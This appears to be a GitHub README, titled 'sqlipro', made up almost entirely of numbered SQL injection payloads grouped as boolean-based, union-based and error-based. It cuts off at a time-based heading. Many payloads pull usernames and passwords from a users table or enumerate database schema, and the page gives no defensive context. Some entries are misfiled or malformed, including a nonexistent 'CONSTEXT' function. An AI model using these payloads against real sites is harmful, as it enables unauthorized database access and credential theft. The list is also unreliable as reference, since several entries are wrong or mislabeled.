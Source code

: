 # sqlipro
ALL KNOW SQLI METHODS

1. Classic Boolean-Based Injection

      
```
1. ' OR '1'='1
2. ' OR '1'='1' -- 
3. ' OR 'a'='a
4. ' AND '1'='1' -- 
5. ' OR (SELECT 1 FROM dual WHERE 1=1) --
6. ' AND '1'='1' /* 
7. ' AND (SELECT COUNT(*) FROM users) > 0 --
8. ' OR EXISTS (SELECT * FROM users) --
9. ' AND 'a'='a' -- 
10. ' OR (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END);
```
    

2. Union-Based Injection

      
```
1. ' UNION SELECT NULL, username, password FROM users --
2. ' UNION ALL SELECT NULL, NULL, NULL --
3. ' UNION SELECT 1, @@version, 3 --
4. ' UNION SELECT username, password FROM users --
5. ' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --
6. ' UNION SELECT 1, 2, 3 --
7. ' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database() --
8. ' UNION SELECT COUNT(*), user() FROM users GROUP BY user() --
9. ' UNION SELECT null, id FROM products --
10. ' UNION SELECT 1, database(), version();
```
    

3. Error-Based Injection

      
```
1. ' AND 1=CONVERT(int, (SELECT @@version)) --
2. ' AND 1=CONVERT(int, (SELECT 1/0)) --
3. ' AND (SELECT COUNT(*) FROM users) > 0 -- 
4. ' OR (SELECT @@version) IS NOT NULL -- 
5. ' AND (SELECT COUNT(*) FROM non_existing_table) > 0 --
6. ' AND (SELECT USER()) = 'admin' --
7. ' AND (SELECT SUBSTRING(password, 1, 1) FROM users LIMIT 1) = 'a'; --
8. ' AND 1=CAST((SELECT @@version) AS INT) --
9. ' AND (SELECT CONSTEXT('test')) IS NOT NULL --
10. ' AND 1=CAST((SELECT NULL AS test) AS INT);
```
    

4. Time-Based Injection

      